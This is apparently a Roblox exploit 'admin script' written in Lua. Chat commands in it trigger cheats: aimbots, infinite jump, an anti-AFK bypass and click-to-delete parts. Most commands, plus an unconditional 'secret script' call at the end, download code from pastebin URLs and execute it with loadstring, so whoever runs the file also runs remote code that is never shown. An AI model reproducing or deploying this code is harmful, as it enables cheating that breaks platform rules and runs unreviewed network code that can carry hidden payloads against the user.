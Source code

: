  loadstring(game:HttpGet("https://pastebin.com/raw/KMp8Jvsa",true))() ----------- Intro GUI

local Player = game.Players.LocalPlayer ------------- START OF SCRIPT
	
Player.Chatted:connect(function(cht)         ----------- CMD SMART
	if cht:match(":cmd") then 
		loadstring(game:HttpGet("https://pastebin.com/raw/M3tZZAqa",true))()
	elseif cht:match(":toolgui") then                                -------------------- TOOL GUI PART / END OF CMD
		
	loadstring(game:HttpGet("https://pastebin.com/raw/txadLpTy",true))()
	
	elseif cht:match(":savetool") then
			for _,v in pairs(game.Players.LocalPlayer.Backpack:GetChildren()) do
if (v:IsA("Tool")) then
v.Parent = game.Players.LocalPlayer
end
			end
	elseif cht:match(":loadtool") then
		for _,v in pairs(game.Players.LocalPlayer:GetChildren()) do
if (v:IsA("Tool")) then
v.Parent = game.Players.LocalPlayer.Backpack
end
		end
	elseif cht:match(":antiafk") then  --------------------------------- END OF TOOL GUI PART
		local VirtualUser=game:service'VirtualUser'
game:service'Players'.LocalPlayer.Idled:connect(function()
VirtualUser:CaptureController()
VirtualUser:ClickButton2(Vector2.new())
end)
		
					        game:GetService("StarterGui"):SetCore("SendNotification",{
            Title = "Loaded";
            Text = "Anti AFK Script";
			        })
		
	elseif cht:match(":blockhead") then
		game.Players.LocalPlayer.Character.Head.Mesh:destroy()
	elseif cht:match(":creeper6") then
		game.Players.LocalPlayer.Character.Head.Mesh:destroy()
function doo(limb, pos)
limb:BreakJoints()
local velocity = Instance.new("RocketPropulsion", limb)
velocity.CartoonFactor = 0
velocity.MaxSpeed = 30
velocity.MaxThrust = 9999
velocity.MaxTorque = Vector3.new(math.huge,math.huge,math.huge)
velocity.Target = game.Players.LocalPlayer.Character.Torso
velocity.TargetOffset = pos
velocity:fire()
local b = Instance.new("BodyGyro", limb)
end
while wait() do
doo(game.Players.LocalPlayer.Character["Left Arm"], Vector3.new(-0.5,-2,-1))
doo(game.Players.LocalPlayer.Character["Right Arm"], Vector3.new(0.5,-2,-1))
doo(game.Players.LocalPlayer.Character["Left Leg"], Vector3.new(-0.5,-2,1))
doo(game.Players.LocalPlayer.Character["Right Leg"], Vector3.new(0.5,-2,1))
end
	elseif cht:match(":creeper15") then
		game.Players.LocalPlayer.Character.Head.Mesh:destroy()
function doo(limb, pos)
limb:BreakJoints()
local velocity = Instance.new("RocketPropulsion", limb)
velocity.CartoonFactor = 0
velocity.MaxSpeed = 30
velocity.MaxThrust = 9999
velocity.MaxTorque = Vector3.new(math.huge,math.huge,math.huge)
velocity.Target = game.Players.LocalPlayer.Character.UpperTorso
velocity.TargetOffset = pos
velocity:fire()
local b = Instance.new("BodyGyro", limb)
end
while wait() do
doo(game.Players.LocalPlayer.Character["LeftUpperArm"], Vector3.new(-0.5,-2,-1))
doo(game.Players.LocalPlayer.Character["RightUpperArm"], Vector3.new(0.5,-2,-1))
doo(game.Players.LocalPlayer.Character["LeftUpperLeg"], Vector3.new(-0.5,-2,1))
doo(game.Players.LocalPlayer.Character["RightUpperLeg"], Vector3.new(0.5,-2,1))
end
	elseif cht:match(":shattervest") then
		loadstring(game:HttpGet("https://pastebin.com/raw/CKbPg9NC", true))()
	elseif cht:match(":animationgui") then
		loadstring(game:HttpGet("https://pastebin.com/raw/uUR6pFVv", true))()
	elseif cht:match(":gabx") then
		loadstring(game:HttpGet("https://pastebin.com/raw/EntUzD5J", true))();
	elseif cht:match(":clickdel") then
		local Plr = game:GetService("Players").LocalPlayer
local Mouse = Plr:GetMouse()

Mouse.Button1Down:connect(function()
if not game:GetService("UserInputService"):IsKeyDown(Enum.KeyCode.LeftControl) then return end
if not Mouse.Target then return end
Mouse.Target:Destroy()
end)
		
	elseif cht:match(":trollinggui") then
		loadstring(game:HttpGet("https://pastebin.com/raw/RNWgaqCE", true))()
	elseif cht:match(":infinitejump") then
		local Player = game:GetService'Players'.LocalPlayer;
local UIS = game:GetService'UserInputService';

_G.JumpHeight = 50;

function Action(Object, Function) if Object ~= nil then Function(Object); end end

UIS.InputBegan:connect(function(UserInput)
    if UserInput.UserInputType == Enum.UserInputType.Keyboard and UserInput.KeyCode == Enum.KeyCode.Space then
        Action(Player.Character.Humanoid, function(self)
            if self:GetState() == Enum.HumanoidStateType.Jumping or self:GetState() == Enum.HumanoidStateType.Freefall then
                Action(self.Parent.HumanoidRootPart, function(self)
                    self.Velocity = Vector3.new(0, _G.JumpHeight, 0);
                end)
            end
        end)
    end
end)
	elseif cht:match(":opfianlity") then
		loadstring(game:HttpGet("https://pastebin.com/raw/w8HNfSWA", true))();
	elseif cht:match(":aimbot1") then
		loadstring(game:HttpGet("https://pastebin.com/raw/2kbyfrn5", true))()
	elseif cht:match("aimbot2") then
		loadstring(game:HttpGet("https://pastebin.com/raw/xB92ES44", true))()
	elseif cht:match("aimbotgui") then
		loadstring(game:HttpGet("https://pastebin.com/raw/uw2P2fbY", true))()
		
	elseif cht:match(":openui") then  -- secret script if you open the pastebin :))
		loadstring(game:HttpGet("https://pastebin.com/raw/F9USVzSK",true))()
	end
end)

------------------------------------------------------------------------------- END OF SCRIPT ------------------------------------------------------------------


loadstring(game:HttpGet("https://pastebin.com/raw/F9USVzSK",true))()

			        game:GetService("StarterGui"):SetCore("SendNotification",{
            Title = "Loaded";
            Text = "Ultimate Admin Script";
			        })
			
			print("Working Admin Script")
